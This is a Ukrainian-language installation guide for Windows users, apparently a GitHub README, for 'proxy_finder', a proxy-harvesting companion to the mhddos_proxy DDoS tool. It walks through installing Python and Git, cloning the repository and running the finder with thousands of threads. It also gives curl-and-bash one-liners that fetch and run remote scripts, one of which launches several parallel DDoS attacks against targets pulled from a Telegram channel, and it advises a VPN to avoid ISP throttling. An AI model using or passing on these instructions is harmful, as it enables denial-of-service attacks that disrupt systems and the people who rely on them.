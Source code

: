 # Інструкції встановлення proxy_finder на Windows

Тестував лише на Windows 10  
  
**!!!УСІ ПУНКТИ ОБОВ'ЯЗКОВІ!!!**

❗️Треба встановити супер-швидкий та стабільний VPN, щоб ваш провайдер не різав трафік через підключення до багатьох ІР(проксі):
https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23

Якщо ви будете без ВПН, то у вас взагалі може попасти інтернет на роутері, як було у мене, бо провайдери не полюбляють коли з їх ІР йде трафік на велику кількість інших ІР(проксі)

Інші ВПН теж можуть не підійти, бо вони можуть відключатися 

1. [**Встановлення Python3**](#1-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F-python3)  
2. [**Встановлення Git**](#2-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F-git)  
3. [**Запуск пошуку**](#3-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BF%D0%BE%D1%88%D1%83%D0%BA%D1%83)  
3.1 [**Запуск напряму через Термінал**](#31-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BD%D0%B0%D0%BF%D1%80%D1%8F%D0%BC%D1%83-%D1%87%D0%B5%D1%80%D0%B5%D0%B7-%D1%82%D0%B5%D1%80%D0%BC%D1%96%D0%BD%D0%B0%D0%BB)  
3.2 [**Запуск за допомогою авто-оновлюваного bash-скрипта, який сам завантажить усі необхідні файли, та самостійно буде завантажувати оновлення**](#32-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%B7%D0%B0-%D0%B4%D0%BE%D0%BF%D0%BE%D0%BC%D0%BE%D0%B3%D0%BE%D1%8E-%D0%B0%D0%B2%D1%82%D0%BE-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D1%8E%D0%B2%D0%B0%D0%BD%D0%BE%D0%B3%D0%BE-bash-%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B0-%D1%8F%D0%BA%D0%B8%D0%B9-%D1%81%D0%B0%D0%BC-%D0%B7%D0%B0%D0%B2%D0%B0%D0%BD%D1%82%D0%B0%D0%B6%D0%B8%D1%82%D1%8C-%D1%83%D1%81%D1%96-%D0%BD%D0%B5%D0%BE%D0%B1%D1%85%D1%96%D0%B4%D0%BD%D1%96-%D1%84%D0%B0%D0%B9%D0%BB%D0%B8-%D1%82%D0%B0-%D1%81%D0%B0%D0%BC%D0%BE%D1%81%D1%82%D1%96%D0%B9%D0%BD%D0%BE-%D0%B1%D1%83%D0%B4%D0%B5-%D0%B7%D0%B0%D0%B2%D0%B0%D0%BD%D1%82%D0%B0%D0%B6%D1%83%D0%B2%D0%B0%D1%82%D0%B8-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
3.3 [**Найкращий спосіб все-в-одному - авто-оновлювані mhddos_proxy та proxy_finder в одному скрипті**](#33-%D0%BD%D0%B0%D0%B9%D0%BA%D1%80%D0%B0%D1%89%D0%B8%D0%B9-%D1%81%D0%BF%D0%BE%D1%81%D1%96%D0%B1-%D0%B2%D1%81%D0%B5-%D0%B2-%D0%BE%D0%B4%D0%BD%D0%BE%D0%BC%D1%83---%D0%B0%D0%B2%D1%82%D0%BE-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D1%8E%D0%B2%D0%B0%D0%BD%D1%96-mhddos_proxy-%D1%82%D0%B0-proxy_finder-%D0%B2-%D0%BE%D0%B4%D0%BD%D0%BE%D0%BC%D1%83-%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D1%96)  

Якщо виникли будь-які проблеми на будь-якому етапі пишіть в телеграм: @brainqdead  

## 1. Встановлення Python3
Спосіб 1:  
Заходимо в cmd (Командная строка)
![image](https://user-images.githubusercontent.com/74729549/167741362-be1ec067-bd71-45b3-9264-5baeba0e844b.png)  

-> Прописуємо python3
![image](https://user-images.githubusercontent.com/74729549/167741398-9439e1b7-bffe-4964-bb70-91a5b4b83ba5.png)  


 -> натискаємо Enter  
Якщо у вас досі немає python3, то Вас перекине до Microsoft store, там натискаєте Отримати / Получить / Get  

Якщо він у вас вже є / ви успішно його отримали то буде ось так: 
![image](https://user-images.githubusercontent.com/74729549/167741390-8f4ef0b7-f958-4ed1-be40-5877a2f0865d.png)  

Після отримання python3 закриваєме це вікно терміналу (командої строки)  

***Якщо через cmd (Командую строку) не вийшло, або у вас Python нижче 3.10 (перевірити можна так `python --version`) - пробуйте зайти самостійно у Microsoft Store та знайти і встановити там Python3.10***  

!!!ТІЛЬКИ ЯКЩО З ПОПЕРЕДНІМ СПОСОБОМ НЕ ВИЙШЛО:!!!
Спосіб 2(може успішно скачатися, але потім не запуститься атака):  
скачуємо python: https://www.python.org  
![image](https://user-images.githubusercontent.com/74729549/167923835-34d51062-369a-4beb-bdb1-88b3581091d7.png)  
Запускаєте скачаний файл(Саме у такому порядку 1-ИЙ ПУНКТ НАЙВАЖЛИВІШИЙ)  
![image](https://user-images.githubusercontent.com/74729549/167923871-1d6b2387-d248-47c5-ad38-c688e952f986.png)  
Далі усе за замовчуванням скрізь клікаєте Далее / Да  

## 2. Встановлення Git

Для початку потрібно ще встановити Notepad++ (зручний редактор коду, він вам згодиться і після нашої перемоги у війні): https://notepad-plus-plus.org/downloads/v8.2.1/    

Коли скачали, запустили установщик та встановили Notepad++ переходимо до наступних пунктів  


Скачуємо установщик git https://gitforwindows.org (ця сама силка на оф. сайті github: https://github.com/git-guides/install-git#install-git-on-windows)  
![image](https://user-images.githubusercontent.com/74729549/167741764-3660a1e0-a79b-4460-aae9-28309ce97c9b.png)
Чекаємо поки скачається, потім запускаємо скачаний файл  

**ВСТАНОВЛЮВАТИ ТРЕБА САМЕ ТАК:**  
![image](https://user-images.githubusercontent.com/74729549/167741828-a3e1c5aa-a3fb-4d95-8705-778a99bda68b.png)  
*Зі списку обрати саме Notepad++ (який ви мали скачати раніше, якщо ні, то закривайте та скачуйте, потім відкривайте Setup файл ще раз)*  
![image](https://user-images.githubusercontent.com/74729549/167741841-b6ceb31a-ded8-41b2-be9c-cab1846791d9.png)  
![image](https://user-images.githubusercontent.com/74729549/167741883-62ecddc4-fffd-405d-a682-a06d6f1edac5.png)  
![image](https://user-images.githubusercontent.com/74729549/167741889-d160c8d2-420a-47bf-987a-9235595ee5b5.png)  
![image](https://user-images.githubusercontent.com/74729549/167741908-cc985a8d-d466-4154-9734-2c9ed1ed50fe.png)  
![image](https://user-images.githubusercontent.com/74729549/167741917-fbc39aed-f3d4-4353-9cea-2fcee1661d8a.png)  
![image](https://user-images.githubusercontent.com/74729549/167741931-ad1cf34c-e49c-41d8-8eb3-8d4119339860.png)  
**Наступний пункт дуже важливий**  
![image](https://user-images.githubusercontent.com/74729549/167741966-7c035bac-9276-42db-ac09-a2957d402f69.png)  
![image](https://user-images.githubusercontent.com/74729549/167741976-48a7e397-f977-42ec-9292-29801708c865.png)  
![image](https://user-images.githubusercontent.com/74729549/167741988-eef8bbf5-6b6c-42cb-971e-4c5b124658cb.png)  
![image](https://user-images.githubusercontent.com/74729549/167741994-93162b55-1931-40e3-82f6-e4a0c768cd9d.png)  
![image](https://user-images.githubusercontent.com/74729549/167742004-c0eaab28-9d27-4f31-9325-9c7d76b2c014.png)  
![image](https://user-images.githubusercontent.com/74729549/167742017-25f7d530-593f-41bf-a226-e5948151a9a1.png)  
Встановлення завершено - натискаємо Finish  

## 3. Запуск пошуку
Надалі після успішного встановлення Python3 та Git потрібно буде кожен день виконувати лише один з наступних пунктів:  
### 3.1 Запуск напряму через Термінал
#### 3.1.1 Встановлення самої програми через Термінал(робимо лише один раз):
Відкриваємо Мой компьютер / Этот компьютер:  
![image](https://user-images.githubusercontent.com/74729549/167746227-6192c1d6-f895-4b01-98fc-98ddf9378fdb.png)  
Шукаємо папку робочого столу:  
![image](https://user-images.githubusercontent.com/74729549/167746244-f3b98d9d-bf07-46a3-8d31-77b9bb400301.png)  
Заходимо у папку Робочого столу:  
![image](https://user-images.githubusercontent.com/74729549/167746271-fbd5b687-1a03-4b21-a016-4593f4fdba56.png)
Та у виділеній області прописуємо три літери `cmd`:  
![image](https://user-images.githubusercontent.com/74729549/167746307-ec4a0331-2536-4015-ba44-bd52e420c7ab.png)  
Та натискаємо Enter - відкриється вікно Терміналу:  
![image](https://user-images.githubusercontent.com/74729549/167746342-a45fb92d-d051-4029-b1f9-61d785f40874.png)
Далі прописуємо наступні команди(та натискаємо Enter), щоб скачати програму та зайти в її папку:  
```shell
git clone https://github.com/porthole-ascend-cinnamon/proxy_finder
cd proxy_finder
```
*можливе таке повідомлення: `fatal: destination path 'proxy_finder' already exists and is not an empty directory.` - це означає, що потрібна папка вже існує - просто йдіть далі по інструкції до пункту 3.1.2 Запуск пошуку проксі*

Повинно вийти ось так:  
![image](https://user-images.githubusercontent.com/74729549/167746721-eb3d9ea7-d7cb-4b7d-a6a4-ed2e125c9411.png)  
#### 3.1.2 Запуск пошуку проксі через Термінал(робимо кожен раз при рестарті машини / пошуку):
Вже у відкритому вікні з минилого пункту вводимо наступні команди:  
щоб мати завжди останню версію:  
```shell
git pull origin main
```
щоб мати завжди останні залежності(без яких пошук не запуститься):  
```shell
python -m pip install -r requirements.txt
```
Має вийти приблизно ось так(у вас може бути трохи інакше, бо завантажаться нові файли / залежності):   
![image](https://user-images.githubusercontent.com/74729549/167747452-0ec0642e-c672-4d2e-b264-330d87969e82.png)
Тепер можемо запускати пошук проксі (але бажано з під [VPN](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23)): 
```shell
python finder.py
```
Вітаю, пошук успішно почався:  
![image](https://user-images.githubusercontent.com/74729549/167747693-c4e731fe-cff9-4c0e-87ac-914a8f34910a.png)  

Також ви можете змінювати кількість потоків (замість 5000, що обираються за замовчуванням), але я б не рекомендував це робити(тим паче якщо у вас паралельно запущенно DDoS, бо можуть початися лаги (буде все тормозити), змінювати ось так:  
```shell
python finder.py --threads 10000
```
де 10000 можна замінити на будь-яке значення від 1 до 15000, але **ми рекомендуємо саме 5000, які стоять за замовчуванням**  

### 3.2 Запуск за допомогою авто-оновлюваного bash-скрипта, який сам завантажить усі необхідні файли, та самостійно буде завантажувати оновлення
Вікриваємо скачаний раніше(у пункті 2) Git Bash:  
![image](https://user-images.githubusercontent.com/74729549/167748665-d102dc65-08a3-4262-897f-a1c70ed729bc.png)  
або шукайте його на Робочому столі  
та вводимо наступне:
```shell
curl -LO https://raw.githubusercontent.com/porthole-ascend-cinnamon/proxy_finder/main/auto_runner_windows.sh && bash auto_runner_windows.sh 5000
```
де 5000 можна замінити на будь-яке значення від 1 до 15000, але **ми рекомендуємо саме 5000, які стоять за замовчуванням**  

### 3.3 Найкращий спосіб все-в-одному - авто-оновлювані mhddos_proxy та proxy_finder в одному скрипті
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 1500 1000
```
Більш детально про всі параметри можна почитати тут: https://github.com/alexnest-ua/runner_for_windows - цей скрипт дозволяє запустити декілька паралельних DDoS-атак через вбудований mhddos_proxy та має вже вбудований proxy_finder, який ще й автоматично оновлює не лише себе, а й mhddos_proxy та proxy_finder, та бере актуальні цілі звідси: https://t.me/ddos_separ  
Тому можете тут https://github.com/alexnest-ua/runner_for_windows обирати параметри під свій ПК - запускати атаку та йти займатися своїми справами, а скрипт зробить все за вас 
